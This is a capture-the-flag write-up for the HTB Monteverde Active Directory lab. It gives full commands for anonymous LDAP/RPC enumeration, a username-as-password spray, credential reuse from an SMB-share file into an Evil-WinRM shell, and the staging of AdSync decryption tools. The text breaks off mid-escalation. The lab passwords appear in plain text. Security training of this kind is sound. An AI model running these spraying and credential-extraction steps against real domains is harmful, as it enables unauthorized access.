# HTB - Monteverde

**IP Address:** `10.129.228.111`  
**OS:** Windows Server 2019 (10.0.17763)  
**Difficulty:** Medium  
**Tags:** #Windows #ActiveDirectory #LDAP #RPC #SMB #WinRM #PasswordSpraying #AzureADConnect #ADSync

> **Vault note:** This README matches the solved run documented in `notes/ctf/htb-monteverde.md`. Redact flags, hashes, and passwords if you publish a public writeup.

---
## Synopsis

Monteverde is a Windows Active Directory host exposing the typical DC surface (**DNS/Kerberos/LDAP/SMB/WinRM**). Anonymous **LDAP** and **RPC** enumeration reveal a small user list, and the domain’s lockout policy allows safe password spraying. A service account is found using **password = username**, which grants read access to a sensitive SMB share (`users$`). A file in a user profile (`azure.xml`) contains a password that reuses for a WinRM-capable user (`mhope`), giving an interactive shell and the user flag. Privilege escalation comes from **Azure AD Connect / Azure AD Sync** being installed; decrypting the sync credentials yields **domain administrator** access and the root flag.

---
## Skills Required

- **nmap**, **CrackMapExec**, **smbclient** / **smbmap**
- **ldapsearch**, **rpcclient**
- Password spraying (safely / policy-aware)
- **Evil-WinRM**
- Azure AD Connect / ADSync credential decryption tooling

## Skills Learned

- Using **anonymous LDAP** + **RPC null sessions** to build a tight user list
- Interpreting **lockoutThreshold** for safe spraying
- Pivoting from **SMB share artifacts** to a WinRM foothold
- Extracting credentials from **Azure AD Sync** to obtain Domain Admin

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.228.111
```



---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.228.111 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49676,49693,49747 10.129.228.111 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  




**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 53 | DNS | Domain services present |
| 88 / 464 | Kerberos / kpasswd | AD authentication |
| 389 / 3268 | LDAP / Global Catalog | Domain: `MEGABANK.LOCAL` |
| 445 | SMB | Signing required; SMBv1 disabled |
| 5985 | WinRM | Remote management (key for shell once creds exist) |
| 9389 | ADWS | AD Web Services |

---
## 2. Service Enumeration

### 2.1 SMB baseline + signing

Enumerate SMB and guest/null-session behavior:

```bash
crackmapexec smb 10.129.228.111
```


Test unauthenticated share listing:

```bash
smbclient -L //10.129.228.111 -N
```



---
### 2.2 LDAP anonymous bind + lockout policy

At this point, SMB does not give us useful unauthenticated access, so our next goal is to obtain credentials.
Before attempting a password spray, we check the domain lockout policy via LDAP. This tells us whether repeated failed logons could lock accounts and make spraying risky.

```bash
ldapsearch -x -H ldap://10.129.228.111 -b "dc=megabank,dc=local" -s sub "*" | grep -i lockout
```


Key value observed:

```text
lockoutThreshold: 0
```

There is no account lockout enforced (`lockoutThreshold: 0`), so we can proceed with a controlled password spray without risking account lockouts in this lab.

---
### 2.3 RPC null session user enumeration

Since SMB share listing is not useful without credentials, we try another common AD enumeration path: RPC null session.
The goal here is to enumerate users/groups without authenticating, so we can build a clean username list for spraying.

```bash
rpcclient -U '' -N 10.129.228.111 -N
# rpcclient $> enumdomusers
# rpcclient $> enumdomgroups
# rpcclient $> querydispinfo
```



Extract usernames to `users.txt` for spraying:

```bash
rpcclient -U '' -N 10.129.228.111 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' > users.txt
cat users.txt
```



Using RPC, we were able to obtain a list of domain users that we could not enumerate via SMB without credentials.

---
## 3. Foothold

### 3.1 Password spray — password == username

With `lockoutThreshold: 0`, a targeted spray is low risk. Our first hypothesis is a simple lab pattern: **password == username**.

We start with `GetNPUsers` to quickly check if any of the users are AS-REP roastable (it is a fast “free win” check when it hits). In this run, the intended path is not AS-REP roasting, so we pivot to a direct authentication spray.

```bash
impacket-GetNPUsers MEGABANK.LOCAL/ -no-pass -usersfile users.txt
```



No AS-REP roastable users were found in this run, so we proceed with a direct authentication spray and model **password == username** by using `users.txt` as both the username list and the password wordlist.

```bash
crackmapexec smb 10.129.228.111 -u users.txt -p users.txt --continue-on-success
```



Here we pass the same `users.txt` as both the username list and the password wordlist to model **password == username**.
This is a practical shortcut: if a username `SABatchJobs` exists and its password is also `SABatchJobs`, the spray will find it.

**Credential obtained (redact before publishing):**

| User                         | Password      |
| ---------------------------- | ------------- |
| `MEGABANK.LOCAL\\SABatchJobs` | `SABatchJobs` |

WinRM was not allowed for this account:

```bash
crackmapexec winrm 10.129.228.111 -u 'SABatchJobs' -p 'SABatchJobs'
```



---
### 3.2 SMB shares as `SABatchJobs` 

SMB authentication works for this account:

```bash
crackmapexec smb 10.129.228.111 -u 'SABatchJobs' -p 'SABatchJobs' --shares
```



The `azure_uploads` and `users$` share is readable. Browse it and pull interesting artifacts:



---
### 3.3 `azure.xml` password reuse → WinRM as `mhope`

After retrieving `azure.xml`, inspect it locally for any stored credentials before testing them against other services:

```bash
cat azure.xml
```



**Password found (redact before publishing):** `4n0therD4y@n0th3r$`

Validate password reuse across users (spray with a single password):

```bash
crackmapexec smb 10.129.228.111 -u users.txt -p '4n0therD4y@n0th3r$' --continue-on-success
```



WinRM works for `mhope`:

```bash
crackmapexec winrm 10.129.228.111 -u 'mhope' -p '4n0therD4y@n0th3r$'
evil-winrm -i 10.129.228.111 -u mhope -p '4n0therD4y@n0th3r$'
whoami
cd $env:USERPROFILE\Desktop
dir
cat user.txt
```



🏁 **User flag obtained**

---
## 4. Privilege Escalation

### 4.1 Identify Azure AD Sync components

From the `mhope` shell, enumerate token groups and user information:

```powershell
whoami /all
net user mhope
```




The `mhope` user is a member of the `Azure Admins` group. Since Azure AD Connect / ADSync is a common privesc path on this machine, we inspect `C:\Program Files` to confirm related components are installed.

```powershell
cd C:\Program Files
dir
```



Notable directories:

```text
Microsoft Azure Active Directory Connect
Microsoft Azure AD Sync
Microsoft SQL Server
```

---
### 4.2 Decrypt Azure AD Sync credentials (ADSync)

This run used the AdSync decrypt approach described in the tool repo:
- [`VbScrub/AdSyncDecrypt`](https://github.com/VbScrub/AdSyncDecrypt)

Prepare and upload the tooling (`AdDecrypt.exe` + `mcrypt.dll`) to a staging folder:

```powershell
cd C:\Windows\Temp
mkdir privesc
cd privesc
upload /path/to/AdDecrypt.exe
upload /path/to/mcrypt.dll
dir
```

